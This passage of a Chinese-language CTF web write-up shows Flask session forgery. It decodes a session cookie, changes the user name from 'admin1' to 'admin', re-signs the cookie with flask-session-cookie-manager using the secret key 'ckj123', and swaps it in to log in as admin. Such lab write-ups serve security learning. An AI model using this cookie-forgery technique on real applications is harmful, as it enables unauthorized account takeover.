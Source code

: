 解密出来的值是一个字典: 可以看到里面有`admin1`

```
{'_fresh': False, '_id': b'50c9ceb19960f8bf2ab3785c5ecc58492f558ec18cfb9bc913533b52aeaeef242f5aa88cec1742f28d08aeeab9671ade9833ed2ceb2d81934fa8b67ca036e0bb', 'csrf_token': b'bbed6ee196bbbf4a533d25120c50f0fa9641aea8', 'image': b'wMTd', 'name': 'admin1', 'user_id': '10'}
```

那么为了伪造`admin`登录,将`admin1`改为`admin`

```
{'_fresh': False, '_id': b'50c9ceb19960f8bf2ab3785c5ecc58492f558ec18cfb9bc913533b52aeaeef242f5aa88cec1742f28d08aeeab9671ade9833ed2ceb2d81934fa8b67ca036e0bb', 'csrf_token': b'bbed6ee196bbbf4a533d25120c50f0fa9641aea8', 'image': b'wMTd', 'name': 'admin', 'user_id': '10'}
```

然后使用脚本对修改完的内容进行加密,同样需要用到`key`,加密之后得到一个新的`session`值

```
E:\CTF工具合集\flask-session-cookie-manager-master\flask-session-cookie-manager-master>py flask_session_cookie_manager3.py encode -s "ckj123" -t "{'_fresh': False, '_id': b'50c9ceb19960f8bf2ab3785c5ecc58492f558ec18cfb9bc913533b52aeaeef242f5aa88cec1742f28d08aeeab9671ade9833ed2ceb2d81934fa8b67ca036e0bb', 'csrf_token': b'bbed6ee196bbbf4a533d25120c50f0fa9641aea8', 'image': b'wMTd', 'name': 'admin', 'user_id': '10'}"
.eJw9kMFuwjAMhl9l8pkD3egFiQNTCmqlOAKljZwLKrSQpAmT6CZoEe--DE2cP_vz__sOu-Ol7Q3Mj7Xv2wnsbAPzO7ztYQ4oP51Q6MllqZB01c5Y7QpDjn8IVjlUlaOxnCHrBu3KRKwrx6VxOuQpBZ5yyRM-okVZGK1WXisakBUB1coIFucUv-G4ibv5TLPljFTlSeUpusON1NYLeRr5e9Xx8Jeh6ATLUj5uA0lj0TWO5HLEUF4p5At4TODQX46776-uPb8qUCi8ZtprmaUYCkuBpiTLqN0MKLOBr2PEdawWInebeLYyYrl46myoT-3L1EyTUv-Tcx0igLoJ9gwT-Onby_NvkEzh8QsPi27Q.Y0wG7Q.BnqQ4DVzGAf6kiiYR_i5k9_YwLQ
```

将这个新的值替换到`cookie`中,就完成了`session`伪造,成功伪装成了`admin`登录,拿到flag

<img src="/images/ctfweb-others/image-20221016213048788.png" alt="image-20221016213048788" style="zoom:67%;" />



<br>

***

<br>
